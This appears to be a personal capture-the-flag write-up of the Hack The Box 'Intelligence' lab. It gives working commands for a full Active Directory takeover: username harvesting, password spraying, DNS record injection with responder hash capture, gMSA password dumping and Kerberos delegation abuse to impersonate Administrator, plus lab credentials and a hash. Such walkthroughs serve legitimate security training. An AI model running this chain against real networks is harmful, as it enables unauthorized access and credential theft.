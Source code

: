 ![[Pasted image 20250430043649.png]]

with [[nmap]] we get that ports opens.

on web page of [[port 80]] we found two PDF documents we can download

![[Pasted image 20250430154752.png]]


using [[exiftool]] we can extract metadata from that documents.

![[Pasted image 20250430154857.png]]

and we find two different creators.

we can think that in `/documents` path exist more documents with that name format, so with the next one liner we can check and download all existent PDF documents very fast using [[Bash scripting]], [[wget]], [[xargs]]

```bash
for i in {2020..2022}; do for j in {01..12}; do for k in {01..30}; do echo "http://10.10.10.248/documents/$i-$j-$k-upload.pdf"; done; done; done | xargs -n 1 -P 20 wget
```

and we got all this documents...

![[Pasted image 20250430161356.png]]

with `exiftool` again we can check the creator and get a possible users list, we user [[sort]] to not get repetitions.

```bash
exiftool content/* | grep Creator | awk 'NF{print $NF}' | sort -u
```

And now, we can validate that users with [[kerbrute]]:

![[Pasted image 20250430162440.png]]

All users are valid.

With a valid user list we can try user [[GetNPUsers.py]] of [[Impacket]] to request a [[Ticket Granting Ticket (TGT)]].

```bash
GetNPUsers.py intelligence.htb/ -no-pass -usersfile ./data/users
```

![[Pasted image 20250430163322.png]]

But none has the configuration `UF_DONT_REQUIRE_PREAUTH` set.

Checking again the PDF, we can use [[pdftotext]] to extract text human readable. 

```bash
for i in $(ls ../pdf/); do pdftotext ../pdf/$i; done 
```

with this we get `.txt` files by each PDF.

If we search recursively by each file filtering by word `password`:

![[Pasted image 20250430164203.png]]
We find interesting file `2020-06-04-upload.txt`

![[Pasted image 20250430164540.png]]
we get a default password.

with [[netexec]] we can check whose password is.

```bash
 netexec smb 10.10.10.248 -u data/users -p data/passwords
```

![[Pasted image 20250430165104.png]]

The user `Tiffany.Molina` has this password.

We can user [[smbmap]] to try list shares resources.

```bash
smbmap -H 10.10.10.248 -u 'Tiffany.Molina' -p 'NewIntelligenceCorpUser9876'
```

![[Pasted image 20250430180709.png]]

Searching in the `IT` folder we find a [[Powershell]] script

![[Pasted image 20250430181501.png]]

let's download it.

```bash
smbmap -H 10.10.10.248 -u 'Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' --download IT/downdetector.ps1
```

And we have this:

![[Pasted image 20250430181623.png]]

We focus our attention in `web*`, the script are using [[Invoke-WebRequest]] to make a request to `DNS Records` which his names start with `web`.

Now, using [[dnstool.py]] we can inject a new `DNS record`

```bash
dnstool.py -u "intelligence.htb\Tiffany.Molina" -p "NewIntelligenceCorpUser9876" -r webtest  -a add -t A -d 10.10.16.2 10.10.10.248
```

![[Pasted image 20250430183502.png]]

Now, with [[responder]] we can listen on the network interface of Hack The Box to try get a `NTLM` hash.

```bash
responder -I tun0
```

And we got:

![[Pasted image 20250430184308.png]]

Ted Graves hash, we can try use [[JohnTheRipper]] to break that hash.

![[Pasted image 20250430184519.png]]

And we have new credentials `Ted.Graves:Mr.Teddy`

validation with `netexec`: 

![[Pasted image 20250430184825.png]]

It's valid.

No we going to use [[bloodhound]] and [[Neo4j]] to try get ways to convert us in admin user.

use [[bloodhound-python]] to collect information about the domain and upload that data in bloodhound.

![[Pasted image 20250430191331.png]]

and we got this, user `Ted.Graves` can read the GMSAP password of svc-int

With [[gMSADumpster.py]] tool we can try get a hash of user `svc-int`

```bash
gMSADumper.py -u 'Ted.Graves' -p 'Mr.Teddy' -l 10.10.10.248 -d intelligence.htb
```

![[Pasted image 20250430192006.png]]

Now, with [[getST.py]] from [[Impacket]] we can try impersonate the user `Administrator`, but we need a `SPN` so lets get that with [[pywerview]]

```bash
pywerview get-netcomputer -u 'Ted.Graves' -p 'Mr.Teddy' -t 10.10.10.248 --full-data
```

and we're searching this:

![[Pasted image 20250430194737.png]]

now with `getST.py`:

```bash
getST.py -spn WWW/dc.intelligence.htb -impersonate Administrator intelligence.htb/svc_int -hashes :b08e6a29a7f50ec81c11df8649e9d7df
```

and the output should say:

```
[*] Saving ticket in Administrator@WWW_dc.intelligence.htb@INTELLIGENCE.HTB.ccache
```

with that file we can try authenticate using [[wmiexec.py]] from [[Impacket]] too.

first, we need export a environment variable called `KRB5CCNAME`

```bash
export KRB5CCNAME=Administrator.ccache
```

and

```bash
wmiexec.py dc.intelligence.htb -k -no-pass
```

![[Pasted image 20250501031806.png]]